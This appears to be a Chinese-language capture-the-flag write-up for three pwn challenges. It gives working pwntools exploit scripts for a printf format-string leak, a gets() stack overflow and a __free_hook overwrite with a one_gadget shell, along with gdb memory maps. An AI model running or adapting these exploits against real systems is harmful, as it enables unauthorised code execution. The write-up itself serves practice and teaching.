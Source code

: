 # 1 "Gimme the report." The Boss said

题目使用了printf()输出用户的输入，通过%x. leak出栈上的数据，定位到flag所在的位置，泄露后转换成字符，在转换端序得到flag。  
写脚本利用：
```python
from pwn import *


p = remote("ali.infury.org", 10004)
p.send(b"please-%72$llx-%73$llx-%74$llx-%75$llx-%76$llx-%77$llx")
p.recvuntil(b"please-")
s = p.recvuntil(b" > log!").replace(b" > log!", b"").decode().strip()
d = s.split("-")
s = ""
for i in d:
    s += i.rjust(16, "0")

s = bytes.fromhex(s)
s = s.decode()
for i in range(0, len(s), 8):
    print(s[i:i + 8][::-1], end="")
```
执行脚本得到flag

# 2 My Last Chance
找到打印flag的函数的地址，通过gets完成溢出，注意64位系统中ebp占8个字节。  
```python
from pwn import *


p = remote("ali.infury.org", 10005)
p.sendlineafter(b"flag.", b'a' * 0x20 + b'b' * 8 + p64(0x400717))
p.interactive()
```
执行脚本得到flag

# Me, worked in maid cafes
题目先允许我们申请一块自定义地址大小的内存，然后读入一个偏移，内存+偏移的位置写8字节指定内容。  
二进制文件保护除了Canary全开，但是交互结尾的_exit(0)也避免了简单的栈溢出，FULL RELO情况下got表会在程序启动时写死，因此也不能打_exit的got。  

在程序启动时，libc会给程序分配一块内存空间供简单申请使用，当申请的内存超过这块空间的大小但又不超过大堆的大小时（不同libc大小不同，这里的临界条件是0x2000）时，就会mmap到与libc对齐的一个大堆上，通过这个特性可以打出libc的基址：
>10001000  
you are here: 0x7f5a3951b010  
gdb-peda$ vmmap  
Start              End                Perm      Name  
0x000055a8c3780000 0x000055a8c3781000 r--p      /home/REDACTED/Desktop/simultaneity  
0x000055a8c3781000 0x000055a8c3782000 r-xp      /home/REDACTED/Desktop/simultaneity  
0x000055a8c3782000 0x000055a8c3783000 r--p      /home/REDACTED/Desktop/simultaneity  
0x000055a8c3783000 0x000055a8c3784000 r--p      /home/REDACTED/Desktop/simultaneity  
0x000055a8c3784000 0x000055a8c3785000 rw-p      /home/REDACTED/Desktop/simultaneity  
0x000055a8c3a9b000 0x000055a8c3abc000 rw-p      [heap]   
**0x00007f1c7638f000 0x00007f1c76d19000 rw-p      mapped** //我们申请的地址在这里  
0x00007f1c76d19000 0x00007f1c76d3e000 r--p      /usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007f1c76d3e000 0x00007f1c76e89000 r-xp      /usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007f1c76e89000 0x00007f1c76ed3000 r--p      /usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007f1c76ed3000 0x00007f1c76ed4000 ---p      /usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007f1c76ed4000 0x00007f1c76ed7000 r--p      /usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007f1c76ed7000 0x00007f1c76eda000 rw-p      /usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007f1c76eda000 0x00007f1c76ee0000 rw-p      mapped  
0x00007f1c76ef8000 0x00007f1c76ef9000 r--p      /usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007f1c76ef9000 0x00007f1c76f19000 r-xp      /usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007f1c76f19000 0x00007f1c76f21000 r--p      /usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007f1c76f22000 0x00007f1c76f23000 r--p      /usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007f1c76f23000 0x00007f1c76f24000 rw-p      /usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007f1c76f24000 0x00007f1c76f25000 rw-p      mapped  
0x00007ffdee798000 0x00007ffdee7b9000 rw-p      [stack]  
0x00007ffdee7d3000 0x00007ffdee7d7000 r--p      [vvar]  
0x00007ffdee7d7000 0x00007ffdee7d9000 r-xp      [vdso]  

用libc的起始地址减去我们申请到的起始地址，得到固定的偏移  
0x00007f1c76d19000 - 0x7f1c7638f010 = 10002416  

所以libc基址 = 申请到的地址+固定偏移  
这样就可以在ASLR开启的情况下计算出libc的基址，也就可以计算出__free_hook相对我们申请到的地址的偏移  

在读入数字时，我们可以添加大量前导零，迫使libc发起malloc，当成功读入数字后，系统会经由__free_hook调用free，这时候就会执行freehook地址中的指针指向的指令。  
我们可以修改8字节的内容，虽然不能完成system的ROP，但是在知道libc基址的情况下可以直接跳转到一个可用的gedget（就是一个现有的system("/bin/sh")地址），通过one_gadget查看可能可用的gedget：  
>$ one_gadget libc.so.6   
0x4484f execve("/bin/sh", rsp+0x30, environ)  
constraints:  
  rax == NULL  
>
>0x448a3 execve("/bin/sh", rsp+0x30, environ)  
constraints:  
  [rsp+0x30] == NULL  
>
>0xe5456 execve("/bin/sh", rsp+0x60, environ)  
constraints:  
  [rsp+0x60] == NULL  

找到三个gedget，经测试，后两个都满足可用条件。  

综上，利用脚本如下：
```python
from pwn import *

libc = ELF('libc.so.6')
p = remote("ali.infury.org", 10006)
libc.symbols['gadget'] = [0x4484f, 0x448a3, 0xe5456][1]
p.sendlineafter(b'big?\n', b'10001000')
p.recvuntil(b'here: ')
libc.address = int(p.recvline().strip(), 16) + 10002416
p.sendlineafter(b'far?\n', str((libc.sym.__free_hook - libc.address + 10002416) // 8).encode())
p.sendlineafter(b'what?\n', 65536 * b'0' + str(libc.symbols['gadget']).encode())
p.interactive()
```